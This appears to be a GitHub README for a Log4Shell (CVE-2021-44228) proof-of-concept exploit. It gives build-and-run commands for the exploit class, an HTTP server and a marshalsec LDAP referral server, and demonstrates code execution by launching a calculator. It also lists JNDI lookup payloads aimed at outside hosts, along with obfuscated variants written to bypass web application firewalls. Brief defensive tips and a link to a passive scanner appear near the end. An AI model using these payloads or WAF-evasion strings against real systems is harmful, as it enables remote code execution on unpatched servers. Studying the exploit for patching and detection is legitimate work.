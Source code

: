 # CVE-2021-44228(Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

The version of 1.x have other vulnerabilities, we recommend that you update the latest version.

[Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

### Usage:

download and build (a) the exploit code [Exploit.java](src/main/java/Exploit.java) (b) the activation code [log4j.java](src/main/java/log4j.java)

```
git clone https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce.git
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package

# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888
```

download and run LDAP server implementation returning JNDI references
[LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Run the following code, and your calculator app will appear.
```
cd CVE-2021-44228-Apache-Log4j-Rce
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

Tips:
> Do not rely on a current Java version to save you. Update Log4 (or remove the JNDI lookup). Disable the expansion (seems a pretty bad idea anyways).

### Bypass rc1
For example:
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

### Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
> Don't trust the web application firewall.

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```

### Simple Check Method
If you want to do black-box testing， I suggest you do passive scanning.

[BurpLog4jScan](https://github.com/tangxiaofeng7/BurpLog4j2Scan)

Have Fun!!!
![BurpLog4jScan.png](https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/img/result.png)

### Stargazers over time
[![Stargazers over time](https://starchart.cc/tangxiaofeng7/apache-log4j-poc.svg)](https://starchart.cc/tangxiaofeng7/apache-log4j-poc)
